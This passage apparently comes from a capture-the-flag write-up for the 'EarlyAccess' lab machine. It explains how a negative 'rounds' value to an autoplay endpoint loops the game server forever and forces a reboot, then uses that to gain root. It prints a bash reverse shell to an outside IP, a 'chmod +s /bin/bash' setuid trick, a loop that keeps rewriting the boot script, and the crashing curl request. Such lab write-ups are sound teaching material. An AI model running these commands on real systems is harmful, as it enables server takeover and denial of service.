 Finally we have the `autoplay` function. The function first checks if the round-input is a valid number. Then it checks if the rounds exceed 100. If so it returns an error. According to the comment, this is done due to performance issues.

Then it runs a while-loop until rounds is `0`. In the while-loop a game is played and the result is outputted as HTML. Looking at this code, we can spot a way to cause an endless-loop:

As the application does not check for negative numbers, the while loop runs as long as the rounds is not zero and every run the rounds-counter is decreased.

If we would use for example `-1` as the amount of rounds, the while loop would run endlessly, which eventually crashes the server. As the healthcheck triggers once the server is not responding, we should be able to "crash" the server and force a reboot this way.

#### Gaining root in the game-server

In order to exploit the game-server, we first have to create an exploit script that should be executed upon boot. For this we can create a simple bash-script with a reverse-shell or if we are alone on the server make bash a setuid-binary.

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.10/443 0>&1'
```

OR

```bash
chmod +s /bin/bash
```

As the cronjob clears out the directory regularly, we can use a simple endless loop in bash to make sure our exploit is not deleted.

```bash
drew@earlyaccess:/opt/docker-entrypoint.d$ while [ 1 -eq 1 ]; do echo 'chmod +s /bin/bash' > ex.sh; chmod +x ex.sh; sleep 1; done
```

Next, we have to crash the server.

A normal curl-request to the node-server would look like this:

```bash
root@void:~# proxychains -q curl 172.19.0.4:9999/autoplay -d 'rounds=1'
<html><body><h1>Starting autoplay with 1 rounds</h1><h4>Stats:</h4><p>Wins: 0</p><p>Losses: 1</p><p>Ties: 0</p><a href="/autoplay">Go back</a></body></html>
```

In order to crash the server we can simply send a negative amount of rounds:

```bash
game-tester@game-server:~$ curl 127.0.0.1:9999/autoplay -d 'rounds=-1'
Connection to 172.19.0.4 closed by remote host.
Connection to 172.19.0.4 closed.
drew@earlyaccess:~$
```

After sending the curl command, the server hangs for about 30 seconds and then closes the ssh-connection. After waiting a bit more, we can re-ssh into the machine and check if bash is now a setuid-binary.

